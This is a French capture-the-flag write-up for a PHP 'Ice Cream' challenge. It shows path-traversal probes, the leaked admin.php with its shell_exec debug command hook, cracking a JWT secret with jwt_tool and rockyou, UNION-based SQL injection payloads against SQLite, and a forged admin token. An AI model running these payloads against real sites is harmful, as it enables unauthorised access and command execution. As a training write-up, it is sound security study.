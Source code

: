 Ice Cream 
=============

On a un site web assez simple avec une seule requête et plusieurs argument possible : 

.. code-block:: console

    http://57.128.112.118:10570/?dir=ingredients&file=vanille
    http://57.128.112.118:10570/?dir=ingredients&file=secret

Lorsqu'on choisit l'ingrédient secret, celui ci refuse de s'afficher.

On va d'abord tester /etc/passwd avec une path traversal : 

.. code-block:: console

    http://57.128.112.118:10570/?dir=../../../../../../etc&file=passwd 
    ==> Access denied

On essaie alors simplement avec "/" : 

.. code-block:: console

    http://57.128.112.118:10570/?dir=/&file=passwd 
    
    <li onclick="location.href='?dir=%2F&file=admin.php'">admin.php</li>
    <li onclick="location.href='?dir=%2F&file=admin.txt'">admin.txt</li>
    <li onclick="location.href='?dir=%2F&file=auth.php'">auth.php</li>
    <li onclick="location.href='?dir=%2F&file=flavors.db'">flavors.db</li>
    <li onclick="location.href='?dir=%2F&file=index.php'">index.php</li>
    <li onclick="location.href='?dir=ingredients'">ingredients</li>
    <li onclick="location.href='?dir=%2F&file=jwt_secret.txt'">jwt_secret.txt</li>
    <li onclick="location.href='?dir=secrets'">secrets</li>
    <li onclick="location.href='?dir=%2F&file=styles.css'">styles.css</li></ul>


On peut maintenant lire les différents fichiers : 

- admin.php 

.. code-block:: php 

    <?php
    $canExecute = false;
    $secret = trim(file_get_contents('jwt_secret.txt'));

    $adminToken = trim(file_get_contents('admin.txt'));

    function base64url_encode($data) {
        return rtrim(strtr(base64_encode($data), '+/', '-_'), '=');
    }

    function base64url_decode($data) {
        return base64_decode(strtr($data, '-_', '+/'));
    }

    function verify_jwt_hs256($jwt, $secret) {
        $parts = explode('.', $jwt);
        if (count($parts) !== 3) return false;

        list($header_b64, $payload_b64, $sig_b64) = $parts;
        $expected_sig = base64url_encode(hash_hmac('sha256', "$header_b64.$payload_b64", $secret, true));

        if (!hash_equals($expected_sig, $sig_b64)) return false;

        return json_decode(base64url_decode($payload_b64), true);
    }

    if (isset($_COOKIE['auth']) && $_COOKIE['auth'] === $adminToken) {
        $canExecute = true;
    } else {
        $header = base64url_encode(json_encode(['alg' => 'HS256', 'typ' => 'JWT']));
        $payload = base64url_encode(json_encode(['role' => 'simple-utilisateur']));
        $signature = base64url_encode(hash_hmac('sha256', "$header.$payload", $secret, true));

        $jwt = "$header.$payload.$signature";

        setcookie('auth', $jwt, time() + 3600, "/");
        $_COOKIE['auth'] = $jwt;
    }

    if ($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['debug'])) {
        if (!$canExecute) {
            echo "<p>Tu ne peux pas executer de commandes avec debug tant que tu n'es pas authentifié en tant qu'admin</p>";
            exit;
        }

        $cmd = $_GET['debug'];
        $output = shell_exec($cmd);
        echo "<pre>$output</pre>";
        exit;
    }
    ?>


- auth.php 

.. code-block:: HTML 

    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>'auth' cookie recherche</title>
        <link rel="stylesheet" href="styles.css">
    </head>
    <body>
        <div class="header-container">
            <h1>EN COURS DE DEVELOPPEMENT NE PAS UTILISER (signé le stagiaire)</h1>
            <p>La table 'auth' permettra de rechercher tous les types d'utilisateurs pour la future authentification</p>
            <p>example : simple-utilisateur</p>
        </div>

        <div class="form-container">
            <form action="" method="POST">
                <label for="ingredient">Type d'utilisateur:</label>
                <input type="text" id="ingredient" name="ingredient" placeholder="Type d'auth">
                <button type="submit">Recherche</button>
            </form>
        </div>
    </body>
    </html>

- index.php 

.. code-block:: console 

    <?php
    include_once('admin.php'); 
    ?>
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Ice Cream Ingredients</title>
        <link rel="stylesheet" href="styles.css">
    </head>
    <body>
    <div class="header-container">
        <h1 class="main-title">PAPI GLACE, l'expert des glaces 3 boules</h1>
        <h2 class="subtitle">Découvrez tous les ingrédients exceptionnels qui font de nous le vendeur de glace numéro 1 à Cannes avec notre iconique glace a 3 boules</h2>
    </div>

    <div class="layout">
        <div class="container" id="ingredients">
            <?php
            if (isset($_GET['file']) && basename($_GET['file']) === 'auth.php') {
                include(__DIR__ . '/auth.php');
                exit;
            }

            $projectRoot = realpath(__DIR__);         
            $ingredientsDir = realpath(__DIR__ . '/ingredients'); 
            $requestedDir = isset($_GET['dir']) ? $_GET['dir'] : 'ingredients';
            $path = realpath($projectRoot . '/' . $requestedDir);

            if ($path === false || (strpos($path, $projectRoot) !== 0)) {
                die("Access denied.");
            }

            if (is_dir($path)) {
                $displayPath = $path === $ingredientsDir ? '/' : str_replace($projectRoot, '', $path);
                echo "<h1>Nos ingedients pour une glace comme fait notre papi: </h1>";
                echo "<ul>";

                $files = scandir($path);
                foreach ($files as $file) {
                    if ($file === '.' || $file === '..' || $file[0] === '.') continue;

                    $filePath = $path . '/' . $file;
                    $fileUrl = $requestedDir . '/' . $file;

                    if (is_dir($filePath)) {
                        $url = "?dir=" . urlencode(trim($fileUrl, '/'));
                        echo "<li onclick=\"location.href='" . $url . "'\">" . htmlspecialchars($file) . "</li>";
                    } else {
                        $url = "?dir=" . urlencode($requestedDir) . "&file=" . urlencode($file);
                        echo "<li onclick=\"location.href='" . $url . "'\">" . htmlspecialchars($file) . "</li>";
                    }                
                }
                echo "</ul>";
            } else {
                echo "<p>Dossier d'ingredients invalide.</p>";
            }
            ?>
        </div>

        <div class="content">
            <?php
            if (isset($_GET['file'])) {
                $requestedFile = basename($_GET['file']); 
                $filePath = $path . '/' . $requestedFile;

                if (strpos(realpath($filePath), $projectRoot) === 0) {
                    $mimeType = mime_content_type($filePath);
                    if (strpos($mimeType, 'image') === 0) {
                        echo "<p>Image file</p>";
                    } 
                    else if ($requestedFile === 'admin.txt') {
                        echo "<p>T'es pas admin je crois nan? </p>";
                    } else if ($requestedFile === 'flavors.db') {
                        echo "<p>Touche pas à ma db! </p>";
                    } else if ($requestedFile === 'jwt_secret.txt') {
                        echo "<p>Pas touche! </p>";
                    }
                    else {
                        echo "<h2>Notre " . htmlspecialchars($requestedFile) . ":</h2>";
                        echo "<div class='content-box'>" . htmlspecialchars(file_get_contents($filePath)) . "</div>";
                    }
                } else {
                    echo "<p>Ingredient invalide.</p>";
                }
            } 
            ?>
        </div>
    </div>
    </body>
    </html>

Les autres fichiers sont inaccessible, on peut tout même trouver l'ingrédient secret mais résultat : http://57.128.112.118:10570/?dir=%2Fsecrets&file=ingr%C3%A9dient+secret

"OH LE BAIT AHAHA...

Jamais je ne mettrai mon ingredient secret dans un fichier visible comme ca.

signe Jonathan le stagiaire"

Donc on a besoin de la clé jwt pour forger un token admin et utiliser la fonctionnalité debug qui exécute des commandes. 

On va cracker la clé du JWT avec jwt_tool et rockyou : 

.. code-block:: console

    python3 jwt_tool -C -d rockyou.txt "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoic2ltcGxlLXV0aWxpc2F0ZXVyIn0.0jureYiNTgso9kOqPJoouKMhJmPg8fTZ1Lm0NPKIINM"

On obtient le mot de passe "icecream" 

On peut donc forger un nouveau token. 

Cependant cela ne fonctionne pas avec : 

- role = admin
- role = administrateur
- role = administrator
- role = papi
- role = simple-admin 
- role = simple-administrateur

Il faut qu'on trouve exactement ce que contient le token admin pour avoir exactement le même. 

En faites si on se rend sur : http://57.128.112.118:10570/?dir=%2F&file=auth.php 

On a alors un formulaire qui va nous permettre de trouver le bon rôle, probablement via une injection SQL 

Caractère interdits : = " 0 ( ) * 

.. code-block:: console

    1' UNION SELECT version --
    SQLite3::query(): Unable to prepare statement: 1, no such column: version in /var/www/html/auth.php on line 21
    Database Error: no such column: version

    1' UNION SELECT sql from sqlite_schema --
    CREATE TABLE "auth" ( id INT AUTO_INCREMENT PRIMARY KEY, name VARCHAR(255) NOT NULL ) est un type d'auth

    1' UNION SELECT name from auth --
    PAPI-JE-SUIS-UN-ADMIN est un type d'auth.
    client est un type d'auth.
    simple-utilisateur est un type d'auth.

Il faut donc faire role = PAPI-JE-SUIS-UN-ADMIN

On le fait avec jwt_tool comme d'habitude

Pourtant cela ne fonctionne pas malgré l'utilisation de jwt_tool pour modifier et resigner le token.

Finalement il y avait un problème dans le challenge, on garde notre cookie de coté : 

.. code-block:: console

    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiUEFQSS1KRS1TVUlTLVVOLUFETUlOIn0.-nbupCaKoUpMjBNbrGRj904w1mJKwrCcQ2uLAGWgTlc

Une fois le challenge modifié on peut l'utiliser pour obtenir le flag via la fonction debug, le fichier est caché dans le dossiers "secrets"

Flag : pas noté